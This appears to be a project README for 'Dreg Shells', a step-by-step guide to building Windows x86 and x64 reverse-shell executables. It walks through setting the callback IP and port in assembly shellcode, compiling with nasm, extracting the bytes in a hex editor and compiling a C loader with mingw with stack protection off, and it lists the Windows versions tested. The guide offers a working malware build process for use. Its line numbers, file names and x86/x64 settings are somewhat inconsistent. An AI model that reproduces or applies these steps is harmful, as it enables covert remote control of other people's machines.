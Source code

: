 # Dreg Shells Guide

**WARNING**: the ugliest code in the world

# Compile from Linux or WSL

```
sudo apt-get install nasm
./compile.sh
./compile64.sh
```

## Dependecies

```bash
apt-get install gcc mingw-w64 nasm -y
```

## Apps used

- [010 Editor](https://www.sweetscape.com/010editor/)

## Reverse shell Assembly x86
---

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 238
push word 0xA3EE ; line 240
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 223 
push word 0xA3EE ; line 225
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win32 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
pushfd
```

To know if it agrees we will click on the tools section and then to dissembler

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(64-Bit) and click dissamble.

![Alt text](/images/BWJenLL.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "pushfd".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
i686-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```

---
## Reverse shell Assembly x64

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 260
push word 0xA3EE ; line 264
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 260
push word 0xA3EE ; line 264
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win64 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
sub rsp, 0x30
```

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(32-Bit) and click dissamble.

![Alt text](/images/hTAv7CY.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "sub rsp, 0x30".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c64.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
x86_64-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```

# Tested

## x86_64

* Windows 10
* Windows Server 2019
* Windows 7

## x86

* Windows 10 
* Windows XP 

